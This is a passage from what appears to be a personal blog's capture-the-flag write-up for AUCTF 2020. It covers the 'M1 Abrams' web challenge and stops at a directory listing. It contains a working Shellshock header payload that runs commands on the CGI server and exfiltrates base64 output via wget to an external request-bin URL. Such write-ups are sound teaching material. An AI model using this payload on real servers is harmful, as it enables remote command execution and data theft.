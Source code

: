 ```yaml
---
path: /posts/2020-04-06-auctf-2020-writeups
title: AUCTF 2020 Writeups
date: 2020-04-06
tags: ctf,infosec,writeup,crypto,web
---
```


Writeups for some AUCTF 2020 challenges I solved. I participated on team `misc` and we came #3.

- web
    - [M1 Abrams](#m1-abrams)
- password cracking
    - [Keanu](#keanu)
- crypto
    - [Sleep On It](#sleep-on-it)

---

# M1 Abrams <a name="m1-abrams"></a>

## web (978pts)

> http://challenges.auctf.com:30024
> 
> We built up this server, and our security team seems pretty mad about it. See if you can find out why.
> 
> Author: shinigami


### Solution

Navigating to the page, we see the default Apache2 page. It was noted during the ctf that dirbusting was allowed, so we begin by dirbusting. Immediately we find a `/cgi-bin/` folder, and within it, a `scriptlet` file which just prints the output of `id`. The scriptlet is vulnerable to shellshock which we can verify by sending `() { :; }; asdf` in a header and seeing that a `500` error is returned. The server also does not have any outbound firewall rules, so we can make it send requests to ourself. We can get the output of commands by base64 encoding it and sending that to a server we have access to:

```bash
> http http://challenges.auctf.com:30024/cgi-bin/scriptlet 'asdf:() { :; }; /bin/bash -c "ls -la / | base64 -w 0 > /tmp/cmd; echo -n https://enw9eh1ly0jxj.x.pipedream.net/ > /tmp/url; cat /tmp/url /tmp/cmd | xargs wget"'
```

In our request bin we see the base64 data which decodes to

```
total 84
drwxr-xr-x   1 root root 4096 Apr  6 02:00 .
drwxr-xr-x   1 root root 4096 Apr  6 02:00 ..
-rwxr-xr-x   1 root root    0 Apr  6 02:00 .dockerenv
drwxr-xr-x   1 root root 4096 Apr  1 14:43 bin
drwxr-xr-x   2 root root 4096 Apr 24  2018 boot
drwxr-xr-x   5 root root  360 Apr  6 02:00 dev
drwxr-xr-x   1 root root 4096 Apr  6 02:00 etc
-rw-rw-r--   1 root root  114 Mar 31 19:34 flag.file
drwxr-xr-x   2 root root 4096 Apr 24  2018 home
drwxr-xr-x   1 root root 4096 Apr  1 14:42 lib
drwxr-xr-x   2 root root 4096 Mar 11 21:03 lib64
drwxr-xr-x   2 root root 4096 Mar 11 21:03 media
drwxr-xr-x   2 root root 4096 Mar 11 21:03 mnt
drwxr-xr-x   1 root root 4096 Apr  1 14:42 opt
```